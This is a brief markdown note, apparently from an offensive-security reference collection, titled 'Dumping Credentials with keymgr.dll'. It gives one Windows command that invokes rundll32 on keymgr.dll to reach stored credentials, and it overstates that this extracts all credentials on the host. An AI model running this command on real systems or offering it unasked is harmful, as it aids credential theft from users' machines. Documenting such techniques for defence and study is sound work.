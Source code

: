 ```yaml
---
title: Dumping Credentials with keymgr.dll
description: The keymgr.dll extracts all credentials on host.
tags:
    - Privilege Escalation
    - Windows
refs:
    - https://samples.vx-underground.org/Papers/Windows/Data%20Theft/2022-04-19%20-%20Dumping%20passwords%20using%20KRShowKeyMgr.PNG
date: 2024-05-17
draft: false
---
```


## Dump

```sh
rundll32 keymgr.dll, KRShowKeyMgr
```